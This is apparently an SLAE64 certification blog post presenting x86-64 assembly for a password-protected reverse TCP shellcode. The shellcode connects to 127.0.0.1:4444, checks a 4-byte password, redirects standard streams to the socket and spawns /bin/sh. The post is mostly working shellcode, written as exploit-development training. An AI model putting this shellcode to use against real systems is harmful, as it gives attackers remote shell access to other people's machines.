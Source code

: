 # Reverse shell with Password

This assignment was split in two parts:
1. Create a nullbyte free version of the reverse tcp shellcode presented in class
2. Write a reverse tcp shellcode that spawns a shell after authentication

I first created a nullbyte-free version of the shellcode from the class and then extended it with an authentication mechanism. The shellcode consists of 8 stages:

## Init socket

I reused the first part of my bindshell shellcode to create a socket:

```
    push SYS_SOCKET
    pop rax
    push AF_INET
    pop rdi
    push SOCK_STREAM
    pop rsi
    cdq

    syscall

    mov rdi, rax ; save socket

```

## Init the sockaddr_in

This part of the shellcode is equivalent to the following C snippet:
```
     server.sin_family = AF_INET
     server.sin_port = htons(PORT)
     server.sin_addr.s_addr = inet_addr("127.0.0.1")
     bzero(&server.sin_zero, 8)
```

As I did for the previous assignment I used shifts and the lower byte registers to create the struct:
```
    xor rax, rax
    push rax ; set sin_zero

    inc eax
    shl eax, 0x18
    add al, 0x7f
    shl rax, 0x10 ; set IP in struct

    add ax, 0x5c11; set port 4444
    shl rax, 0x10

    add al, 2; sin_family = AF_INET
    push rax ; RSP does now point to the struct
```

## Connect
In this part the connect syscall is executed in order to connect to the ip and port specified in the sockaddr_in struct.

C pseudocode equivalent:

```
    connect(sock, (struct sockaddr *)&server, sockaddr_len)
```

Assembly:
```
    push SYS_CONNECT
    pop rax ; Rax now contains the SYS_CONNECT syscall number
    mov rsi, rsp ; Rsp points to the sockaddr_in struct and is moved to rsi
    push 16
    pop rdx ; sockaddr_len in rdx
    syscall
```

## Authentication
Similar to the last assignment I read 4 bytes from stdin and compare them to the configured password. I store the read bytes in the sin_zero field of the sockaddr_in struct as we dont need it anymore and it saves me some bytes to create a null byte.
```
    sub rsi, 0x10 ; Reuse sin_zero from struct
    push 4
    pop rdx ; read 4 bytes
    xor rax,rax ; rax = syscall_read()
    syscall

    cmp dword[rsi], PASSWORD
    jne _burn ; Raise a sigsegv if the wrong password was entered.
```

## DUP2 loop
In this part I duplicate stdin,stout and stderr to the connected socket sothat we can communicate properly. Again I use a loop to iterate the file descriptors.

In C:
```
    dup2(client, STDIN)
    dup2(client, STDOUT)
    dup2(client, STERR)
```

```
    push 3 ; fd counter in rsi
    pop rsi

    _loop:

    dec esi ; we start with duplicating stderr
    push SYS_DUP2
    pop rax
    SYSCALL

    jne _loop ; terminate loop if stdin was duplicated
```

## Pop a shell
Again this is a very basic execve shellcode that spawns /bin/sh

```
    xor rax, rax
    push rax
    mov rbx, 0x68732f2f6e69622f ; /bin/sh
    push rbx
    mov rdi, rsp ; rdi points to /bin/sh
    push rax
    mov rdx, rsp ; rdx points to null
    push rdi
    mov rsi, rsp ; rsi points to /bin/sh
    add rax, 59
    syscall
```
This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification. 

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert 

Student ID: SLAE64-1581

